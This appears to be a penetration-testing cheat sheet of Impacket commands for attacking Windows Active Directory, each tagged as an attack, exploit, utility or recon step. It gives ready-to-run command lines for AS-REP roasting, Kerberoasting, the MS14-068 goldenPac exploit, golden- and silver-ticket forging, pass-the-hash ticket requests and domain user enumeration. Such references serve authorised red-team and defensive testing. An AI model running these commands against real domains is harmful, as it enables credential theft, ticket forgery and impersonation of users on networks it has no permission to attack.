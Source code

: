 # Impacket

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoast)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
#plateform/linux #target/local  #cat/UTILS
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impersonate user
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
#plateform/linux #target/remote  #cat/UTILS
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
#plateform/linux #target/remote  #cat/RECON 
```
GetADUsers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```
